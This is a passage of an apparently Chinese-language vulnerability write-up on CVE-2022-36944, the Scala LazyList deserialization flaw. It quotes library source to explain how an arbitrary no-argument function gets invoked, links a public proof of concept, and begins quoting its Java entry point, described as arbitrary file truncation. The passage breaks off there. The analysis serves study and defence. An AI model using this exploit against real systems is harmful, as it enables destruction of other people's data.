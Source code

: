 `prependedAll`方法在`LazyList`中被重写  
```scala
  override def prependedAll[B >: A](prefix: collection.IterableOnce[B]): LazyList[B] =
    if (knownIsEmpty) LazyList.from(prefix)
    else if (prefix.knownSize == 0) this
    else newLL(stateFromIteratorConcatSuffix(prefix.iterator)(state))
```
`knownIsEmpty`方法用于判断计算方法中是否仍有值未被计算  
```scala
// stateEvaluated 需要为true，即有值被计算过  
  @inline private[this] def knownIsEmpty: Boolean = stateEvaluated && (isEmpty: @inline)
```
`isEmpty`方法判断是否有值仍未被计算  
```scala
  override def isEmpty: Boolean = state eq State.Empty
```
前面已经提到过`state`来自`lazyState`方法的计算结果，而`lazyState`来自于实例化`LazyList`对象时传的一个无参匿名函数。  
```scala
@SerialVersionUID(3L)
final class LazyList[+A] private(private[this] var lazyState: () => LazyList.State[A])
  extends AbstractSeq[A]
    with LinearSeq[A]
    with LinearSeqOps[A, LazyList, LazyList[A]]
    with IterableFactoryDefaults[A, LazyList]
    with Serializable {
  import LazyList._

  @volatile private[this] var stateEvaluated: Boolean = false
  @inline private def stateDefined: Boolean = stateEvaluated
  private[this] var midEvaluation = false
  private lazy val state: State[A] = {
    // if it's already mid-evaluation, we're stuck in an infinite
    // self-referential loop (also it's empty)
    if (midEvaluation) {
      throw new RuntimeException("self-referential LazyList or a derivation thereof has no more elements")
    }
    midEvaluation = true
    val res = try lazyState() finally midEvaluation = false
    // if we set it to `true` before evaluating, we may infinite loop
    // if something expects `state` to already be evaluated
    stateEvaluated = true
    lazyState = null // allow GC
    res
  }
}
```
那么，如果在创建`LazyList`对象时给其传任意一个无参匿名函数，岂不是可已实现任意无参匿名函数调用。  
### LazyList反序列化漏洞利用
在知道了漏洞的成因后，如何寻找可利用的匿名函数是个难点。github中流传着该漏洞的POC。[CVE-2022-36944 POC](https://github.com/yarocher/lazylist-cve-poc/tree/main#/)    
对该`POC`代码进行分析，入口点为  
```java
package poc.cve.lazylist.payload;

import poc.cve.lazylist.function0.DefaultProviders;

import java.io.IOException;

public class Main {
   // 这是一个进行任意文件擦除的例子
    public static void main(String[] args) throws IOException {
      // 要被擦除的文件路径
        String fileToTruncate = args[0];
        // 是否进行追加
```